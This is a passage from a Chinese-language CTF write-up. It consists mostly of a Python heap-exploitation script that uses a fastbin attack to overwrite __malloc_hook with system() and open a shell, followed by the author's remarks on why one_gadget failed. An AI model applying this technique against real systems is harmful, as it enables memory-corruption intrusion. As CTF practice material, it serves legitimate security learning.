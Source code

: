 ```python
__malloc_hook = libc_base + malloc_so
system = libc_base + system_so
print "libc_base @ " + hex(libc_base)
print "malloc_hook @ " + hex(__malloc_hook)

add('A', 'A', '-32')
add('B', 'B', 0x10)
fake = p64(0)*3
fake += p32(0x71)
add(fake, 'C', 0x48, 0)

delete(0)
delete(2)

payload = 'A' * 8*3
payload += p32((0x40*2) + 0x1)
payload += chr(0)*2
add('A', payload, '-32', 0)

target = __malloc_hook - 0x30 + 0xd

payload = 'B' * 0x8*3
payload += p64(0x71)
payload += p64(target)
edit(1, payload)

add('E', 'E', 0x48)
payload = 'F' * 0x13
payload += p64(system)
add('F', payload, 0x48, 0)

c.sendline("1")
c.sendline(str(0x6020C0 - 0x20))

c.interactive()
```
### 写在最后
此题的解题套路有很多，因为自身水平有限所以只会用fastbin attack来解orz,最后能做出来也纯属运气，刚好出题人设置了全局变量来leak libc，否则无法为system传递一个正确的参数，而把malloc_hook劫持为one_gadget的话在本题是行不通的，所有的gadget都无法拿到shell。
